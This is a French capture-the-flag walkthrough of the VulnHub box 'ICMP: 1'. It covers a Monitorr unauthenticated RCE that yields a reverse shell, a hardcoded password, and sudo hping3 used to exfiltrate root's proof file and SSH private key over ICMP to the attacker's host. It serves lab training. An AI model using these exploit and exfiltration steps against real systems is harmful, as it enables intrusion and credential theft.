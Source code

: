 ```yaml
---
title: "Solution du CTF ICMP de VulnHub"
tags: [CTF, VulnHub]
---
```


Proposé par foxlox, [ICMP: 1](https://vulnhub.com/entry/icmp-1,633/) est une box affichée comme facile. D'autant plus si on a de bonnes connaissances en réseau :)

```
Nmap scan report for 192.168.56.44
Host is up (0.00020s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 deb52389bb9fd41ab50453d0b75cb03f (RSA)
|   256 160914eab9fa17e945395e3bb4fd110a (ECDSA)
|_  256 9f665e71b9125ded705a4f5a8d0d65d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-title:             Monitorr            | Monitorr        
|_Requested resource was http://192.168.56.44/mon/
|_http-server-header: Apache/2.4.38 (Debian)
```

On a une appli web avec une signature qui donne son nom ainsi que son numro de version : Monitorr 1.7.6m, la release date de juillet 2018 ([Release Master: 1.7.6m · Monitorr/Monitorr · GitHub](https://github.com/Monitorr/Monitorr/releases/tag/1.7.6m))

Une recherche sur exploit-db remonte deux exploits :

* [Monitorr 1.7.6m - Authorization Bypass - PHP webapps Exploit](https://www.exploit-db.com/exploits/48981)

* [Monitorr 1.7.6m - Remote Code Execution (Unauthenticated) - PHP webapps Exploit](https://www.exploit-db.com/exploits/48980)

L'une est un bypass d'autorisation et l'autre une RCE... sans authentification. Bref on peut directement zapper la première.

L'exploit en question se sert d'une faille de type unresitricted upload (à peu de choses près car il fake le content-type et intègre un entête d'image mais *Monitorr* laisse passer l'extension en PHP). Le code uploadé exécute une commande bash de reverse shell, il faut donc mettre un ncat en écoute avant exécution :

```bash
$ python3 monitorr.py http://192.168.56.44/mon 192.168.56.1 9999
A shell script should be uploaded. Now we try to execute it
```

Et voilà :

```bash
$ ncat -l -p 9999 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.56.44.
Ncat: Connection from 192.168.56.44:48580.
bash: cannot set terminal process group (455): Inappropriate ioctl for device
bash: no job control in this shell
www-data@icmp:/var/www/html/mon/assets/data/usrimg$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Sur le système je remarque un utilisateur nommé *fox* :

`uid=1000(fox) gid=1000(fox) groups=1000(fox)`

```bash
www-data@icmp:/home/fox$ ls -al
total 20
drwxr-xr-x 3 root root 4096 Dec  3  2020 .
drwxr-xr-x 3 root root 4096 Dec  3  2020 ..
lrwxrwxrwx 1 root root    9 Dec  3  2020 .bash_history -> /dev/null
drwx--x--x 2 fox  fox  4096 Dec  3  2020 devel
-rw-r--r-- 1 fox  fox    33 Dec  3  2020 local.txt
-rw-r--r-- 1 root root   78 Dec  3  2020 reminder
www-data@icmp:/home/fox$ cat local.txt
c9db6c88939a2ae091c431a45fb1e59c
www-data@icmp:/home/fox$ cat reminder
crypt with crypt.php: done, it works
work on decrypt with crypt.php: howto?!?
```

Le script *crypt.php* se trouve dans le dossier *devel*. On ne peut pas lister le dossier mais passer à travers (droit exécution). Ca semblait évident :)

```php
<?php
echo crypt('BUHNIJMONIBUVCYTTYVGBUHJNI','da');
?>
```

Si on exécute le script avec l'interpréteur PHP ça nous donne `daBzh0EX1iJIU`.

Mais c'est bien `BUHNIJMONIBUVCYTTYVGBUHJNI`  qui est accepté comme mot de passe pour l'utilisateur *fox*.

On peut directement se connecter via SSH avec cet utilisateur et constater qu'il peut exécuter deux commandes en tant que root :

```bash
User fox may run the following commands on icmp:
    (root) /usr/sbin/hping3 --icmp *
    (root) /usr/bin/killall hping3
```

`hping3` ne dispose pas d'option permettant d'exécuter du code mais des options permettent de spécifier la charge à injecter dans le paquet réseau.

On va donc s'envoyer le flag final :

```bash
$ ls -al /root
total 36
drwxr-xr-x  3 root root 4096 Dec  3  2020 .
drwxr-xr-x 18 root root 4096 Dec  3  2020 ..
lrwxrwxrwx  1 root root    9 Dec  3  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root   84 Nov  4  2020 .google_authenticator
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root   33 Dec  3  2020 proof.txt
drwxr-xr-x  2 root root 4096 Nov  4  2020 .ssh
-rw-------  1 root root  937 Dec  3  2020 .viminfo
-rw-r--r--  1 root root  209 Dec  3  2020 .wget-hsts
$ sudo /usr/sbin/hping3 --icmp --file /root/proof.txt -d 33 192.168.56.1
HPING 192.168.56.1 (enp0s3 192.168.56.1): icmp mode set, 28 headers + 33 data bytes
[main] memlockall(): Operation not supported
Warning: can't disable memory paging!
len=61 ip=192.168.56.1 ttl=64 id=185 icmp_seq=0 rtt=8.3 ms
```

On aura bien sûr mis un tshark à l'écoute :

```bash
$ sudo tshark -x -i vboxnet0 icmp
Running as user "root" and group "root". This could be dangerous.
Capturing on 'vboxnet0'
 ** (tshark:15465) 21:43:04.226969 [Main MESSAGE] -- Capture started.
 ** (tshark:15465) 21:43:04.227064 [Main MESSAGE] -- File: "/tmp/wireshark_vboxnet0QMF5U1.pcapng"
0000  0a 00 27 00 00 00 08 00 27 bb c6 71 08 00 45 00   ..'.....'..q..E.
0010  00 3d 65 ac 00 00 40 01 23 96 c0 a8 38 2c c0 a8   .=e...@.#...8,..
0020  38 01 08 00 04 00 6f 03 00 00 39 33 37 37 65 37   8.....o...9377e7
0030  37 33 38 34 36 61 65 61 62 62 35 31 62 33 37 31   73846aeabb51b371
0040  35 35 65 31 35 63 66 36 33 38 0a                  55e15cf638.
```

On peut aussi ne récupérer que le texte via la commande :

```bash
sudo tshark -w- -i vboxnet0 icmp
```

On peut modifier la commande hping pour envoyer la clé privée SSH de l'utilisateur root. Il faut la recoller car elle parvient en deux paquets mais c'est suffisant pour avoir un shell.

```bash
$ ssh -i root.key root@192.168.56.44
Linux icmp 4.19.0-11-amd64 #1 SMP Debian 4.19.146-1 (2020-09-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@icmp:~# cat proof.txt 
9377e773846aeabb51b37155e15cf638
```

Ce fut rapide mais pas inintéressant :)

*Publié le 4 novembre 2022*
